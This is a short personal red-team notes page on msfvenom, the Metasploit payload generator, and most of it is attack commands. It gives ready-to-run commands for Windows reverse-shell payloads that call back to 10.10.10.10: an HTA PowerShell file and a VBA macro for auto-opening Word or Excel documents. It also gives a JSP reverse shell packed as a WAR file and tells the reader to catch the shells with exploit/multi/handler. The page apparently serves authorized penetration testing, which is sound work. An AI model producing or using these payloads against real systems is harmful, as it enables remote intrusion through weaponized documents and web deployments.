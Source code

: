 ```yaml
---
creation date: April 30th 2023
last modified date: April 30th 2023
aliases: []
tags: #🧰
---
```


Primary Categories: [[01 - Pentest]] - [[01 - Red Team]]
Secondary Categories:  [[02 - Weaponization]]
Links: [[Metasploit]] - [[Payloads]]
Search Tag: #🧰  

# [[MsfVenom]]  
___

## Description:
This is a Metasploit standalone payload generator.

## Installation
Per-installed on kali

## Commands
### Basic Payload Example
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f hta-psh -o example.hta
```
- Breakdown:
	- `-p` = Selected payload
		- Default Kali location `/usr/share/doc/metasploit-framework/modules/payload/`
	- `LHOST=` = The host we want the payload to callback too
	- `LPORT=` = The port we want the payload to callback too
	- `-f` = Format we want the payload in
		-  Run the following for a complete list: `msfvenom --list formats`
	- `-o` = Output filename

### Reverse for VBA
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f vba -o example.doc
```
- May need to edit the payload to open with the correct document listed below are some file types:
	- **Excel** = `Workbook_Open()`
	- **Word** = `Document_Open()`
- Finally utilize [[Metasploit]] with: `use exploit/multi/handler`

### Reverse for WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=9000 -f war > shell.war
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 30th 2023 (09:02 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
